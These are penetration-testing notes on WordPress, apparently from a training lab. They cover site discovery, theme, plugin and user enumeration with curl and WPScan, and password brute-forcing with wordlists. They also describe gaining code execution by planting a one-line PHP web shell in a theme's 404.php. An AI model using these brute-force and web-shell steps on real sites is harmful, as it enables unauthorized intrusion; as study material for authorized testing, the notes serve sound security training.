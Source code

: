 # Wordpress

## Overview

## Discovery

A quick way to identify a WordPress site is by browsing to the /robots.txt file. A typical robots.txt on a WordPress installation may look like:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

Another quick way to identify a WordPress site is by looking at the page source.

```shell
curl -s http://blog.inlanefreight.local | grep WordPress
```

## Enumeration

### Themes and Plugins

Find the themes:

```shell
curl -s http://blog.inlanefreight.local/ | grep themes
```

Find the plugins:

```shell
curl -s http://blog.inlanefreight.local/ | grep plugins
```

For the plugins found we can try to get there readme.txt to get their version:

```
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
```

Check for exploits in both themes and plugins used.

### Users

An invalid username returns that the user was not found. So we can do user enumeration this way.

## Enumeration - Automation

### WPScan

```shell
sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.loca
```

To enumerate users:

```shell
sudo wpscan -e u -t 500 --url http://ir.inlanefreight.local
```

```shell
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

We can obtain an API token from WPVulnDB, which is used by WPScan to scan for PoC and reports

## Attacks

### Login Bruteforce

```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
sudo wpscan --url http://ir.inlanefreight.local -U ilfreightwp -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top100.txt
```

### RCE

As admin, edit a used theme 404.php page, with:

```php
system($_GET[0]);
```

Then do

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```